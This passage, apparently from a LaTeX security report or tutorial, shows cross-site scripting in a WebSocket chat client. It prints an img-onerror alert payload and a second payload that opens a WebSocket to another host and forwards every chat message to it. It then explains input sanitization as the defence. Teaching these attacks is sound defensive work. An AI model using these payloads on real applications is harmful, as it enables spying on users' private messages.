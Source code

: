 	\begin{lstlisting}[language=html]
	<img src=1 hidden onerror=”alert('HACKED!!')”>
	\end{lstlisting}
	
	Then an alert box will appear on the other browser (even on the client which sent the message).
	In this case the other client is left unharmed, but if the code placed inside the \texttt{onerror} callback is a bit more complex it can create serious harm to the client, for example we could open another WebSocket connection in order to spy the user, for example:
	
	\begin{lstlisting}[language=html]
		<img src=1 hidden onerror="var badws=new WebSocket('ws://10.0.3.40:8080/'); function send(){var msg=document.getElementById('msg').value;addMsg(msg);ws.send(msg);badws.send(msg);} var tmp=document.getElementById('send'); tmp.onclick=send;">
	\end{lstlisting}
	
	In this example we create a new WebSocket and define again the \texttt{send(…)} function, adding \texttt{badws.send(msg)} in order to forward the message to another server.
	The code for the malicious server is very similar to the code of the legitimate WebSocket server, it only writes on the console the received messages.
	
	In order to avoid trivial attacks like this one, the client should always check incoming data, and sanitize it properly.
	Another possible way to avoid an attack like that is to perform a sanitization on server side; in such a way the server acts as a proxy that secure the messages. Of course, the client must still check the incoming data, assuming that the server is not compromised is a strong assumption.\newline
	
	In order to reproduce this example you only need the following Java library for server side WebSocket: \url{https://github.com/TooTallNate/Java-WebSocket}.
	
	
	\paragraph{Example 2} We now show an example that could leak important information contained in a cookie, for example the session id. If an attacker is capable of stealing your id, he can access the website with your credentials without the need of knowing your username and password.\newline
	
